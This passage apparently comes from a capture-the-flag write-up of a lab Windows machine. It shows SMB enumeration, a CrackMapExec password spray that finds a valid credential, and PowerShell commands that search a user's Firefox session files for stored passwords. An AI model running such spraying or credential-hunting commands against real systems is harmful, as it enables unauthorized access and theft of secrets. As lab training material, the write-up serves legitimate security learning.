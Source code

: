 ```

root@kali# smbmap -H 10.10.10.149
[+] Finding open SMB ports....
[!] Authentication error occurred
[!] SMB SessionError: STATUS_ACCESS_DENIED({Access Denied} A process has requested access to an object but has not been granted those access rights.)
[!] Authentication error on 10.10.10.149

```

No permissions. I try adding a bad username and password just to be sure, but same results. I’ll also check `smbclient` just in case:

```

root@kali# smbclient -N -L //10.10.10.149
session setup failed: NT_STATUS_ACCESS_DENIED

```

#### With Creds

Now I’ll try with the credentials I’ve gathered. [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec/wiki/Using-Credentials) is a great tool here. I can give it a list of username and passwords, and let it tell me which one worked:

```

root@kali# crackmapexec smb 10.10.10.149 -u users -p passwords 
CME          10.10.10.149:445 SUPPORTDESK     [*] Windows 10.0 Build 17763 (name:SUPPORTDESK) (domain:SUPPORTDESK)
CME          10.10.10.149:445 SUPPORTDESK     [-] SUPPORTDESK\rout3r:stealth1agent STATUS_LOGON_FAILURE 
CME          10.10.10.149:445 SUPPORTDESK     [-] SUPPORTDESK\rout3r:$uperP@ssword STATUS_LOGON_FAILURE 
CME          10.10.10.149:445 SUPPORTDESK     [-] SUPPORTDESK\rout3r:Q4)sJu\Y8qz*A3?d STATUS_LOGON_FAILURE 
CME          10.10.10.149:445 SUPPORTDESK     [-] SUPPORTDESK\admin:stealth1agent STATUS_LOGON_FAILURE 
CME          10.10.10.149:445 SUPPORTDESK     [-] SUPPORTDESK\admin:$uperP@ssword STATUS_LOGON_FAILURE 
CME          10.10.10.149:445 SUPPORTDESK     [-] SUPPORTDESK\admin:Q4)sJu\Y8qz*A3?d STATUS_LOGON_FAILURE 
CME          10.10.10.149:445 SUPPORTDESK     [+] SUPPORTDESK\hazard:stealth1agent 
[*] KTHXBYE!

```

It will stop once it finds one. If you want it to continue, there’s a `--continue-on-success` flag in newer versions than the one on kali.

I’ll re-run `smbmap` with creds. hazard can only access `IPC$`:

```

root@kali# smbmap -H 10.10.10.149 -u hazard -p stealth1agent
[+] Finding open SMB ports....
[+] User SMB session establishd on 10.10.10.149...
[+] IP: 10.10.10.149:445        Name: 10.10.10.149                                      
        Disk                                                    Permissions
        ----                                                    -----------
        ADMIN$                                                  NO ACCESS
        C$                                                      NO ACCESS
        IPC$                                                    READ ONLY

```


[10.10.10.149]: PS C:\Users\Chase\Documents> whoami
[10.10.10.149]: PS C:\Users\Chase\appdata\roaming\mozilla\firefox\profiles> dir
[10.10.10.149]: PS C:\Users\Chase\appdata\roaming\mozilla\firefox\profiles\77nc64t5.default\sessionstore-backups> Get-ChildItem -path . -recurse -file | select-string password